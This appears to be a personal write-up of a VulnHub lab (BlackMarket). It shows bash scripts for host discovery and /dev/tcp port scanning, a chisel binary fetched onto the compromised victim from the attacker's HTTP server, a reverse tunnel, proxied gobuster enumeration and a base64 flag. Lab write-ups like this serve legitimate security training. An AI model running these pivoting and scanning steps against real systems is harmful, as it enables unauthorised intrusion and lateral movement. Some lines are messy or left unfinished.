 VulnHub

From BlackMarket machine, we start the hostDiscovery by using a script *HostDiscovery.sh* stored in /tmp/

`#!/bin/bash`
`for i in $(seq 1 254); do`
        `timeout 1 bash -c "ping -c 1 10.10.2.$i" &>/dev/null && echo "[+] Host 10.10.2. $i - Active" &` 
`done; wait`

but it doesn't find anything more than our IP, probably the host is not accepting ICMP,

![[Pasted image 20240316143639.png]]

We can try a port scanning by using a script *port.sh* which uses bash redirection /dev/tcp
`#!/bin/bash`
`for i in $(seq 128 254); do`
	`for port in 21 22 80 443 445 8080; do`
		`timeout 1 bash -c "echo ' ' > /dev/tcp/10.10.2.$i/$port" &>/dev/null && echo "[+] Host 10.10.2.$i - PORT $port - OPEN" &` 
	`done`0
`done; wait`
Now we found an IP 10.10.2.131 using port 80
![[Pasted image 20240316185359.png]]

## Pivoting
[[Pivoting]]

We transfer at first, the chisel client to the victim (BlackMarket) by launching an HTTP server for the transference:

`Attacker$ sudo python3 -m http.server 80`

`Victim$ wget http://192.168.4.170/chisel` *transference of chisel*

![[Pasted image 20240316190636.png]]
### Chisel
Attacker$./chisel server --reverse -p 1234 *reverse portforwarding by port 1234 as server mode*

Vicitim$

## Files Enumeration
We can use proxychains but is better to use natively *gobuster* proxy feature:

`$gobuster dir -h http://10.10.2.131 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 20 -x html,php,txt --proxy socks5://127.0.0.1:1080``
`
![[Pasted image 20240317165052.png]]

We found a hidden base64 code as a js library
![[Pasted image 20240318030605.png]]
ZmxhZzJ7YVcxbVl
XUnRhVzVwYzNS
eVlYUnZjZz09fQ==
